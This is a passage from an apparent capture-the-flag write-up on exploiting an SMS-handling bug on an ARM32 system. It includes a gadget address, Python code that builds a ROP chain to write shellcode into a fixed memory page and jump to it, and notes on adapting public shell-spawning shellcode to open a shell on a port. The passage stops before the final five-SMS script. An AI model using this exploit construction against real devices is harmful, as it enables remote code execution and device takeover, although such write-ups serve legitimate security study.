 register.  
I save the address did some math to understand how far it was from the
vulnerable buffer. With an sms in position `8` we can gain back control of
`PC` register.

### Second Payload  
At this point, we have a page in the memory space with a fixed address where
we can write and jump into.

We need some reliable way to copy a shellcode into this memory and jump to it.  
I tried for several hours to build a call to memcpy but I was not able to put
a stack address into `r1` register. (`r1` is the source register because of
the calling convention of amr32).

Thankfully marcof came out with the idea of building a ropchain that write the
shellcode into memory using registers.

This is the type of gadget that you need:

```python  
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}  
storer4r3 = 0x00013568  
```

You put 4 bytes that you want to write in `r4` and the address where to write
in `r3` and keep doing that until the whole shellcode is written.

The challenge here was to have a chain not too long, because we were close to
env variable on the stack, overwriting env was ending in a crash because used
by some time function.

After several iterations we end up with this script to generate such chain:  
```python  
ropchain_second += p32(r4pop+1) #r4  
ropchain_second += shellcode[0:4] #r4  
for x in range(0, len(shellcode), 4):  
   spiece_next = shellcode[x+4:x+8]  
   if x >= len(shellcode)-4:  
       spiece_next = p32(address+1) # These put jumping address in r4  
       print "done"  
   ropchain_second += p32(popr3+1) #pc  
   ropchain_second += p32(address+x) #r3 value  
   ropchain_second += p32(storer4r3+1) #pc  
   ropchain_second += spiece_next #r4  
#add jump to address  
ropchain_second += p32(blxr4+1)  
```

The other point to keep the chain short was keeping the payload short. We
basically used this [`shellcode`]({{"http://shell-
storm.org/shellcode/files/shellcode-754.php"|absolute_url}}) with small fixes:  
- we removed instruction that jumps in thumb mode (we can do this directly)  
- we changed "/system/bin/sh" in "/bin/sh"  
- we reduce bytes for the port.

This is the final script that produces 5 SMSes. The last one is the one which
triggers the bug so it needs to be the last one.
